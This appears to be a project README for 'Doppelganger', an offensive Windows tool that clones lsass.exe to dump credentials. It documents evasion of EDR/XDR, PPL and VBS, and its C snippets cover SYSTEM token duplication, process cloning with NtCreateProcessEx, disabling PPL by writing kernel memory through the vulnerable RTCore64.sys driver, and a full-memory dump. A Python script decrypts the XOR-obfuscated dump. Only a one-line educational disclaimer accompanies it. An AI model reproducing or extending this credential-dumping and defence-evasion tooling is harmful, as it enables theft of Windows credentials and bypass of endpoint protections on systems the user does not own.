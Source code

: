 ```yaml
---
title = 'Doppelganger'
date = 2025-04-02T15:28:21+02:00
draft = false
---
```


### Doppelganger Program: An Advanced LSASS Dumper with Process Cloning

#### Author: vari.sh

![Doppelganger](images/doppelganger.png)

---

## Overview

The **Doppelganger Program** is an advanced Windows utility designed to obtain an LSASS (Local Security Authority Subsystem Service) dump from a cloned process, rather than the original one. By using process cloning techniques, the tool aims to bypass PPL (Process Protected Light), VBS (Virtualization Based Security), EDR/XDR detection mechanisms that typically monitor interactions with `lsass.exe`.

The program achieves this by:
- Obtaining a SYSTEM token through token duplication.
- Loading clean versions of Windows DLLs to avoid detection.
- Cloning the LSASS process using `NtCreateProcessEx`.
- Disabling PPL (Protected Process Light) protection on `lsass.exe`.
- Creating an LSASS dump using `MiniDumpWriteDump()`.
- Encrypting the dump file using XOR encryption to further avoid detection.

---

## Features

- **Process Cloning:** Uses `NtCreateProcessEx` to clone `lsass.exe` and avoid detection.
- **XOR Encryption:** Dumps are encrypted with a predefined XOR key before being written to disk.
- **Driver Interaction:** Leverages `RTCore64.sys` for direct memory access to disable PPL.
- **Token Manipulation:** Elevates to SYSTEM privileges to access LSASS.
- **DLL Offuscation:** Loads DLLs using encrypted strings to bypass signature-based detections.

---

## Installation

The Doppelganger Program is written in C and is intended to be compiled using Visual Studio. The repository is structured as follows:

```
doppelganger/
│
├── includes/          # Header files (.h)
├── src/               # Source files (.c)
├── build/             # Output binaries
├── utils/             # Utility scripts (e.g., decryptor)
└── README.md          # Documentation
```

### Compilation

Compile the project in Visual Studio using the provided solution file.
Ensure to have the `RTCore64.sys` driver present and accessible by the program.

---

## Code Breakdown

### 1. Resolving APIs

The tool resolves critical Windows APIs by decrypting their names from encrypted strings and dynamically loading them with `CustomGetProcAddress()`.

```c
// Example of resolving API pointers
BOOL success =
    ResolveApiFromDll(hKernel32, P32F_ENC, sizeof(P32F_ENC), (void**)&pP32F) &&
    ResolveApiFromDll(hNtdll, NTCPE_ENC, sizeof(NTCPE_ENC), (void**)&pNTCPX) &&
    ResolveApiFromDll(hAdvapi32, OPTK_ENC, sizeof(OPTK_ENC), (void**)&pOPTK);

if (!success) {
    log_error("Failed to resolve one or more APIs.");
    return FALSE;
}
```

### 2. Token Duplication

To interact with `lsass.exe`, the tool impersonates SYSTEM using duplicated tokens.

```c
HANDLE hSystemToken = NULL;
if (!GetSystemTokenAndDuplicate(&hSystemToken)) {
    log_error("Failed to duplicate SYSTEM token.");
    return 1;
}
```

### 3. Process Cloning

Using `NtCreateProcessEx`, the tool creates a clone of `lsass.exe`.

```c
NTSTATUS status = pNTCPX(
    &hClone,
    PROCESS_ALL_ACCESS,
    &objAttr,
    hLsass,
    0,
    NULL,
    NULL,
    NULL,
    FALSE
);
```

### 4. Disabling PPL

Protected Process Light (PPL) protection is disabled by directly modifying memory using the `RTCore64.sys` driver.

```c
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 2, 0x00); // SignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 1, 0x00); // SectionSignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection, 0x00); // Protection
log_success("PPL disabled (0x00 written)");
```

After the cloning, the values will be restored.

### 5. Creating the Dump

Finally, a memory dump of the cloned `lsass.exe` process is created and encrypted.

```c
BOOL dumped = pMDWD(
    hClone,
    clonedPID,
    hTempFile,
    MiniDumpWithFullMemory,
    NULL,
    NULL,
    NULL
);
```

---

## Decryption

A simple Python script is provided to decrypt the dumped files.

```python
import sys

XOR_KEY = b"0123456789abcdefghij"

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <xor_dump_path>")
        sys.exit(1)

    encrypted_path = sys.argv[1]
    output_path = encrypted_path + ".dec"

    with open(encrypted_path, "rb") as f:
        data = f.read()

    decrypted = xor_decrypt(data, XOR_KEY)

    with open(output_path, "wb") as f:
        f.write(decrypted)

    print(f"Decryption successful. Output written to: {output_path}")

if __name__ == "__main__":
    main()
```

---

## Conclusion

The Doppelganger Program demonstrates how process cloning, API obfuscation, and memory manipulation can be used to bypass traditional detection mechanisms. The combination of techniques makes it effective at retrieving sensitive memory data even on systems protected by anti-tampering mechanisms.

---

## Disclaimer

This project is for educational purposes only. Use responsibly and only in environments where you have explicit permission to test security mechanisms.

